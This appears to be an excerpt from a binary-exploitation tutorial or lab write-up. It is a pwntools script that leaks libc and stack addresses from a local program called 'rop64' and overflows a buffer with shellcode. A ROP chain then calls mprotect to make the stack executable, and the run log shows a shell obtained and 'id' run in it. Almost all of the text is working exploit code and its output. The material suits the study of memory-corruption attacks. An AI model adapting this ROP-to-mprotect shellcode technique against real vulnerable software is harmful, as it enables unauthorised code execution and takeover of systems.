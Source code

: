 ```py
# libc leak
r.recvn(10)
r.recvuntil('Printf() address : ')
libcbase = int(r.recvuntil('\n'),16)
libcbase -= libcbase_printf_offset
# stack leak
r.recvuntil('buf[50] address : ')
stack = int(r.recvuntil('\n'),16)
back = str(hex(stack))
shellArea = int(back[0:11] + '000',16)
 
log.info(back[0:11])
log.info(hex(shellArea))
log.info("libcbase : " + hex(libcbase))
log.info("stack : " + hex(stack))
log.info("mprotect() : " + hex(libcbase + libcbase_mprotect_offset))
 
payload = shellcode
payload += "A" * (72 - len(shellcode))
 
 
#mprotect(address of shellcode,0x2000,0x7)
payload += p64(pop_rdi_ret)
payload += p64(shellArea)
payload += p64(libcbase + pop_rdx_rsi_ret_offset)
payload += p64(0x7)
payload += p64(0x2000)
payload += p64(libcbase + libcbase_mprotect_offset)
payload += p64(stack)
 
gdb.attach(r,'b*0x400726')
r.send(payload)
r.interactive()
```
```nasm
$ python mprotect.py 
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './rop64': pid 11299
[*] 0x7fffffffd
[*] 0x7fffffffd000
[*] libcbase : 0x7ffff7809000
[*] stack : 0x7fffffffdd50
[*] mprotect() : 0x7ffff790a830
[*] Switching to interactive mode
$ id
uid=1000(xfeebe) gid=1000(xfeebe) groups=1000(xfeebe),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$
```
